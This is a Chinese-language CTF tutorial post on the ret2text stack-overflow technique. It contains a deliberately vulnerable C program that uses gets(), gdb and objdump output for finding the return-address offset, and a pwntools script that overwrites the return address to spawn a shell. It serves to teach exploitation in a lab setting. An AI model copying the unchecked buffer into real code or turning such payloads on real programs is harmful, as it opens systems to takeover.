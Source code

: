 ```yaml
---
title: ret2text攻击技术示例
time: 2017-08-03
tags: [CTF, pwn, stackoverflow]
layout: post
categories: posts
---
```


# 什么是ret2text？

ret2text是指return to text，意思就是通过向缓冲区填入过多的数据，导致缓冲区溢出，覆盖了返回地址(return address)，返回到程序某处可以被利用的代码后，达成相应的目的，也就是获取了程序中任意地址处代码执行的能力。

ret2text是最简单的栈溢出漏洞利用技术，不需要太多的技术基础就可以进行利用。

# ret2text示例代码

``` c
//gcc -m32 -fno-stack-protector ret2text.c -o ret2text
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

void secure(void)
{
    int secretcode, input;
    srand(time(NULL));
    secretcode = rand();
    scanf("%d", &input);
    if(input == secretcode)
        system("/bin/sh"); /* [1] */

}

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("There is something amazing here, do you know anything?\n");
    gets(buf); /* [2]  */
    printf("Maybe I will tell you next time !");

    return 0;

}
```

本节示例的漏洞程序也可以从该处下载：[ret2text](/files/ret2text)

# 漏洞分析

main函数里使用了不安全的gets()函数，因为没有对输入字符长度进行检查，所以会导致缓冲区溢出。我们的思路就是输入过长的数据，使buf溢出，覆盖了gets()函数的返回地址，并在返回地址处修改为system("/bin/sh")代码处的地址，这样当main函数返回，程序就会跳转到system("/bin/sh")处获取一个shell，从而完成攻击。

我们用gdb挂起程序，逐步调试。

``` asm
    0x804869b <main+83>:	mov    DWORD PTR [esp],0x804876c
    0x80486a2 <main+90>:	call   0x8048480 <puts@plt>
    0x80486a7 <main+95>:	lea    eax,[esp+0x1c]
=>  0x80486ab <main+99>:	mov    DWORD PTR [esp],eax
    0x80486ae <main+102>:	call   0x8048460 <gets@plt>
    0x80486b3 <main+107>:	mov    DWORD PTR [esp],0x80487a4
    0x80486ba <main+114>:	call   0x8048450 <printf@plt>
    0x80486bf <main+119>:	mov    eax,0x0
```
执行到0x80486a7处，使用eax存储了buf的首地址，之后在0x80486ab处将eax的值压入栈中，这里我们查看eax寄存器的值为*0xffffcd1c*。同时我们观察，此时buf首地址处于栈顶，那我们来查看以下ebp寄存器的值，值为*0xffffcd88*，而ebp再下面即是返回地址，因此我们可以得出从buf首地址到返回地址之间的距离为
``` python
0xffffcd88 - 0xffffcd1c + 0x04 = 0x70
```
同时我们需要查看 *system("/bin/sh")*的地址
``` bash
objdump -d ret2text
```
找到system()调用的代码处

``` asm
804863a:	c7 04 24 63 87 04 08 	movl   $0x8048763,(%esp)
8048641:	e8 4a fe ff ff       	call   8048490 <system@plt>
```
我们只要将返回地址覆盖为*0x804863a*便可获取一个shell

# 攻击代码

``` python
from pwn import *

system_addr = 0x804863a
payload = ''
payload += 'A' * (0xffffcd88 - 0xffffcd1c + 0x04 )
payload += p32(system_addr)

io = process('ret2text')
io.sendline(payload)
io.interactive()
```
